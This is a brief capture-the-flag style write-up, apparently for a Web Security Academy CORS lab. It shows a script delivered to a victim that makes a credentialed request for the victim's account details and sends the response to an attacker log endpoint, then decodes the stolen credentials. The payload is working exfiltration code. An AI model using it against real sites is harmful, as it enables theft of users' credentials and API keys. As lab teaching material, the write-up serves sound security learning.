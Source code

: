 1. The following script is delivered to the victim:

	```
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
		req.withCredentials = true;
		req.send();

		function reqListener() {
		   location='/log?key='+this.responseText;
		};
	</script>
	```

2. After supposedly executing the script on victims machine his credentials get logged:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902320-15feb06d-f392-40da-9c8d-b718e698a4df.png)

3. Decoding victim's credentials via Burp Decoder:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
